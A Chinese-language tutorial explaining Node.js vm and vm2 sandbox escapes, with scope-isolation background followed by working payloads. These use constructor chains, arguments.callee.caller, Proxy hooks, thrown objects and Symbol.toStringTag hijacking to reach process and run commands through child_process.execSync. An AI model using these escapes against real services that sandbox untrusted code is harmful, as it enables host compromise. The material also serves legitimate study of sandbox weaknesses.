




# 0x01 概念初识

- JavaScript与NodeJS的区别：
  JavaScript用于浏览器前端，将Chrome的V8引擎单独拿出来为NodeJS开发了一个运行环境
- 沙箱的工作机制：
  主要是依赖重定向，将恶意代码的执行目标重定向到沙箱内部
- SandBox、VM、Docker
  沙箱和虚拟机使用的都是虚拟化技术，但二者的目的不同。沙箱用于隔离有害程序，虚拟机用于一个主机上运行多个操作系统。Docker属于沙箱的一样，通过创造一个有边界的运行环境将程序放在里面，使程序被边界困住，从而使程序与程序，程序与主机之间相互隔离开。
- NodeJS提供vm模块来创建沙箱环境，但这个模块有很多缺陷，后面产生了vm2

# 0x02 作用域的隔离

- 函数作用域

```javascript
let price = 53;
const foo = new Function('price', 'return price+5');
console.log(foo(price));  // 58
```

我们知道函数的局部作用域和外边是隔开的，当我们想在函数的作用域中使用函数外的变量，需要使用形参来传递，或使用global声明变量。

vm模块的作用类似，我们可以通过传字符串进去执行代码，而且这个执行环境还与外部隔绝。

- 包作用域

在Node中作用域也称为上下文。写过Node的都知道，我们一般需要在文件里面`require`其他js文件，这些文件称为包。每个包都有自己的上下文，且包之间的作用域互相隔离，若要调用其他包中的变量和函数，首先需要`require`这个包，然后这个包需要`exports`对外的对象。



global是NodeJS中的全局变量，如同window是JavaScript的全局对象

如console就是挂载在global下的一个全局变量，可以直接使用。尽量不要声明全局变量，否则容易导致变量污染。

- # 0x03 vm沙箱逃逸

  vm原理就是创建一个新的作用域，让代码在这个新的作用域里面去运行

  下面先了解几个常用的vm模块的API

  - `vm.runinThisContext(code)`：在当前global下创建一个作用域(sandbox)，将接收到的参数作为代码运行。可以访问到global中的属性，无法访问其他包中的属性

  ```javascript
  const vm = require('vm');
  let localVar = 'local';
  const vmRes = vm.runInThisContext('localVar="vm"');
  console.log('vmRes: ', vmRes);
  console.log('localVar: ', localVar);
  // vmRes:  vm,  localVar:  local
  ```

  -  `vm.createContext([sandbox])`：在当前global外创建一个作用域，此时这个沙箱对象就是这个作用域的全局对象，沙箱内部无法访问global中的属性
  - `vm.runInContext(code, contextifiedSandbox)`：参数为要执行的代码和创建完作用域的沙箱对象。

  

```javascript
const vm = require('vm');
const util = require('util');
global.globalVar = 3;
const sandbox = { globalVar: 1 };
vm.createContext(sandbox);
vm.runInContext('globalVar *=2', sandbox);
console.log(util.inspect(sandbox));  // { globalVar: 2 }
console.log(util.inspect(global.globalVar));  //3
```

- `vm.runInNewContext(code, sandbox)`：传入要执行的代码和沙箱对象
- `new vm.Script(code)`：创建一个新的vm.Script对象，包含预编译的脚本，能够被多次执行。code不绑定于任何全局对象，仅仅绑定于每次执行它的对象。

```javascript
const vm = require('vm');
const util = require('util');
const sandbox = {
    animal: 'cat',
    count: 3
};
const script = new vm.Script('count +=2; name="kitty"');
const context = vm.createContext(sandbox);
script.runInContext(context);
console.log(util.inspect(sandbox));
// { animal: 'cat', count: 5, name: 'kitty' }
```

想要RCE，就要先获取`process`对象，再利用`child_process`执行命令。但`process`是挂载在`global`上的，`createContext`得到的上下文是访问不了`global`的。因此我们要想办法将`global`上的`process`引入沙箱中。

```javascript
const vm = require('vm');
const util = require('util');
const res = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
console.log(res);
```

`this`指向当前传递给`runInNewContext`的对象，获取其构造器(Function)，再获取构造器对象的构造器(即Function的constructor)。

```javascript
const res = vm.runInNewContext(`this.toString.constructor('return process.env')()`);
```

第一个`constructor`换成`toString`也能成功执行。

```javascript
const vm = require('vm');
const script = new vm.Script(`
(() => {
    const res = this.toString.constructor('return process')();
    return res.mainModule.require('child_process').execSync('calc').toString();})()
`);
const sandbox = {
    m: [],
    n: {},
    x: /regexp/
}
const context = new vm.createContext(sandbox);
script.runInContext(context);
```

数字，字符串，布尔这些是primitive类型，他们在传递的过程是将值传递过去而不是引用，而对于数组、对象这些传递的是引用。

因此这里的`this`换成m、n、x亦行。

# 0x04 vm沙箱逃逸下记

### Problem 1

若沙箱对象是null，没有可以引用的对象，此时如何逃逸呢

```javascript
const sandbox = Object.create(null);
```

要用到一个函数中的内置对象的属性`arguments.callee.caller`

```javascript
const vm = require('vm');
const script = `
(() => {
    const a = {};
    a.toString = function () {
        const c = arguments.callee.caller;
        const p = (c.constructor.constructor('return process'))();
        return p.mainModule.require('child_process').execSync('calc');
    }
    return a;
})()`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res);
```

在沙箱内创建了一个对象，将这个对象的toString方法重写了，通过`argument.callee.caller`获得沙箱外的一个对象。沙箱外log中通过字符串拼接的方法触发了重写后的toString函数，进而RCE。

### Problem 2

若沙箱外没有执行字符串的操作来触发这个toString，并且沙箱中的对象也没有可以进行恶意重写的方法，可以用`Proxy`来劫持属性（？有点像Java的动态代理）

```javascript
const vm = require('vm');
const script = `
(() => {
    const a = new Proxy({},{
        get: function () {
            const c = arguments.callee.caller;
            const p = (c.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc');
        }
    })
    return a;
})()`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
res.abc;
```

当我们在沙箱外访问proxy对象的任意属性，无论是否存在，就会触发`get`对应的钩子函数

### Problem 3

若沙箱没有返回值或返回的是我们无法利用的对象，该如何逃逸呢？

可以借助异常将沙箱内的对象抛出

```javascript
const vm = require('vm');
const script = `
(() => {
    throw new Proxy({},{
        get: function () {
            const c = arguments.callee.caller;
            const p = (c.constructor.constructor('return process'))();
            return p.mainModule.require('child_process').execSync('calc');
        }
    })
})()`;
try {
    vm.runInContext(script, vm.createContext(Object.create(null)));
} catch (e) {
    console.log("error:" + e);
}
```

# 0x05 vm2沙箱逃逸

从上面可以看出vm沙箱的隔离功能太差劲了。

第三方包vm2在vm的基础上做了一些优化。


vm2相比vm做出很大的改进，其中之一就是利用了es6新增的proxy特性，从而使用钩子拦截对`constructor`和`__proto__`这些属性的访问。


vm2版本<=3.6.10

```javascript
const {VM} = require('vm2');
const untrusted = `
const f = Buffer.prototype.write;
const ft = {
        length: 10,
        utf8Write(){
        }
}
function r(i){
    var x = 0;
    try{
        x = r(i);
    }catch(e){}
    if(typeof(x)!=='number')
        return x;
    if(x!==i)
        return x+1;
    try{
        f.call(ft);
    }catch(e){
        return e;
    }
    return null;
}
var i=1;
while(1){
    try{
        i=r(i).constructor.constructor("return process")();
        break;
    }catch(x){
        i++;
    }
}
i.mainModule.require("child_process").execSync("whoami").toString()
`;
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}
```

想办法在沙箱外的代码中触发一个异常，并在沙箱内捕捉，这样就可以获得一个外部变量e，再利用这个变量e的constructor执行代码。 而触发异常的方法就是“爆调用栈”，JavaScript在递归超过一定次数时就会抛出异常。但我们需要保证的是：抛出异常的这个函数是在host作用域中（即沙箱外）。


```javascript
Symbol = {
  get toStringTag(){
    throw f=>f.constructor("return process")()
  }
};
try{
  Buffer.from(new Map());
}catch(f){
  Symbol = {};
  f(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
}
```

vm2会代理与初始化沙箱内对象，如果此时这个对象是下面类型，则会执行Decontextify.instance()函数。



这个函数中，用到了一个全局对象Symbol，我们劫持这个对象的getter()方法。这样，vm2在执行到Decontextify.instance()函数会抛出异常，因为这个异常是在沙箱外的代码抛出的，我们在沙箱内拿到的异常对象e，这就是一个外部变量。



POC中劫持了Symbol.toStringTag的getter，并在这个getter函数中抛出异常，这个“异常”是一个回调函数。然后我们在catch中捕捉这个函数，即可拿到沙箱外部的process对象。